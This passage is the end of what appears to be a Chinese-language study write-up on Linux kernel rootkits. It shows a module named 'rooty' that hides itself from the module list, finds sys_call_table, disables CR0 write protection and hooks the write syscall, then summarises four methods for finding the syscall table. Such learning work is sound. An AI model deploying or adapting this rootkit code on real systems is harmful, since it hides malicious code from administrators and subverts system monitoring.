 ```c
    /* Do kernel module hiding*/
    list_del_init(&__this_module.list);
    kobject_del(&THIS_MODULE->mkobj.kobj);
    
    /* Find the sys_call_table address in kernel memory */
    if ((sys_call_table = (psize *) find())) {
        printk("rooty: sys_call_table found at %p\n", sys_call_table);
    } else {
        printk("rooty: sys_call_table not found, aborting\n");
    }
    
    /* disable write protect on page in cr0 */
    write_cr0(read_cr0() & (~ 0x10000));
    
    /* hijack functions */
    o_write = (void *) xchg(&sys_call_table[__NR_write],rooty_write);
    /* return sys_call_table to WP */
    write_cr0(read_cr0() | 0x10000);
    
    return 0;
}

void rooty_exit(void) {
    write_cr0(read_cr0() & (~ 0x10000));
    xchg(&sys_call_table[__NR_write],o_write);
    write_cr0(read_cr0() | 0x10000);
    printk("rooty: Module unloaded\n");
}
```

## 5 总结&问题

### 总结

1. 理解系统调用的整个过程
2. 学习搜索系统调用表的四种方法，包括：
   1. 通过System.map直接读取
   2. 通过kallSyms直接读取
   3. 确定一个大概的范围，然后通过close调用暴力搜索
   4. 通过IDT中断向量表找到system_call地址然后搜索call指令寻找sys_call_table地址
3. 实现了一个文件隐藏的功能

### 问题

1. 对于`ls`命令的过程不是很清楚，对于隐藏的hook代码不是很清楚
2. 代码在高版本linux上运行不通过，一直没有找到出现问题的原因

## 参考资料

- [Modern Linux Rootkits 101](<https://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html?view=sidebar>)
- [Linux Rootkit 实验 | 0004 另外几种系统调用挂钩技术](<https://wohin.me/rootkit/2017/05/08/LinuxRootkitExp-0001.html>)
- [Linux Rootkit 实验 | 0001 基于修改sys_call_table的系统调用挂钩](<https://wohin.me/rootkit/2017/05/08/LinuxRootkitExp-0001.html>)
- [Linux Rootkit 系列二：基于修改 sys_call_table 的系统调用挂钩](http://www.freebuf.com/sectool/105713.html)

- [Linux Rootkit 系列四：对于系统调用挂钩方法的补充](http://www.freebuf.com/articles/system/108392.html)